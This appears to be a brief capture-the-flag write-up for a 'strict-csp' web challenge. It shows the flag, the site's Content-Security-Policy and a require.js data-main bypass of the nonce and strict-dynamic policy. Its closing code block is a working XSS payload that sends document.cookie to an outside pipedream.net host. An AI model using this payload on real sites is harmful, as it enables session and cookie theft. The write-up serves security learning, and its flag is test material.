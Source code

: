 # strict-csp

`flag{th4t-w4s3nt-s0-str1ct-w4snt-it?}`

```
Content-Security-Policy
default-src 'self'; script-src 'strict-dynamic' 'nonce-Tem71LBRvr';
style-src 'self' https://stackpath.bootstrapcdn.com/bootstrap/;
font-src 'self' https://stackpath.bootstrapcdn.com/bootstrap/;object-src 'none'
```

No unsafe eval
Nonce
Strict dynamic

Require.js bypass

It is possible to load additional code with source requires.js
This means that the code will be loaded together with a script with nonce.

```js
<script
  data-main="data:1,document.location='https://eof1z0pcrn07ets.m.pipedream.net?cookie='+document.cookie"
  src="require.js"
></script>
```

